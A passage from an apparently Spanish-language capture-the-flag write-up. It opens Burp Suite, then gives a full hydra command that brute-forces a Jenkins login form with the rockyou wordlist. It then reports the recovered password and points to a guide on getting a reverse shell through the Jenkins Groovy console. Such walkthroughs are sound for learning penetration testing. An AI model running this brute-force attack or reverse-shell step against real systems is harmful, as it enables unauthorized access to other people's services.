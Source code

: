 Vamos a abrir el `BurpSuite` para poder ver la informacion que necesitamos para hacer fuerza bruta con `hydra`

```bash
❯ burpsuite &>/dev/null & disown
[1] 83406
```

Esta es la estructura ahora si ya podemos hacer la fuerza bruta

![](/assets/images/try-writeup-internal/Web16.png)

```bash
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8080 127.0.0.1 http-post-form '/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password'
```

Tenemos la contraseña

![](/assets/images/try-writeup-internal/Web17.png)

Bueno podemos usar la consola de `Jenkins` para enviarnos una reverse shell siguiente esto para conseguir una [reverse shell](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6)
